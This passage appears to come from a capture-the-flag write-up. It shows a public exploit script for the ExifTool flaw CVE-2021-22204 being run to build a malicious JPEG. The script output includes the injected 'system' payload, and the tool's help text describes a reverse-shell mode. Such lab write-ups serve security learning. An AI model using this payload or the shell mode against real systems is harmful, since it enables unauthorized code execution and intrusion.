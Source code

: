 When I first try to run it, it errors out saying I am missing the DjVu support libraries, which I’ll install with `sudo apt install djvulibre-bin`. Then I can run it, giving a command to run. I’ll start with `id`:

```

oxdf@hacky$ python /opt/exploit-CVE-2021-22204/exploit-CVE-2021-22204.py -c 'id'

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
UNICORD: Exploit for CVE-2021-22204 (ExifTool) - Arbitrary Code Execution
PAYLOAD: (metadata "\c${system('id')};")
DEPENDS: Dependencies for exploit are met!
PREPARE: Payload written to file!
PREPARE: Payload file compressed!
PREPARE: DjVu file created!
PREPARE: JPEG image created/processed!
PREPARE: Exiftool config written to file!
EXPLOIT: Payload injected into image!
CLEANUP: Old file artifacts deleted!
SUCCESS: Exploit image written to "image.jpg"

```

It compresses the DjVu format into a `.jpg` file. On uploading that to Meta, there’s execition:

![image-20220603162451231](https://0xdfimages.gitlab.io/img/image-20220603162451231.png)

### Shell

The tool help shows that the `-s` flag will spawn a reverse shell:

```

oxdf@hacky$ python /opt/exploit-CVE-2021-22204/exploit-CVE-2021-22204.py
UNICORD Exploit for CVE-2021-22204 (ExifTool) - Arbitrary Code Execution

Usage:
  python3 exploit-CVE-2021-22204.py -c <command>
  python3 exploit-CVE-2021-22204.py -s <local-IP> <local-port>
  python3 exploit-CVE-2021-22204.py -c <command> [-i <image.jpg>]
  python3 exploit-CVE-2021-22204.py -s <local-IP> <local-port> [-i <image.jpg>]
  python3 exploit-CVE-2021-22204.py -h

Options:
  -c    Custom command mode. Provide command to execute.
  -s    Reverse shell mode. Provide local IP and port.
  -i    Path to custom JPEG image. (Optional)
  -h    Show this help menu.

```
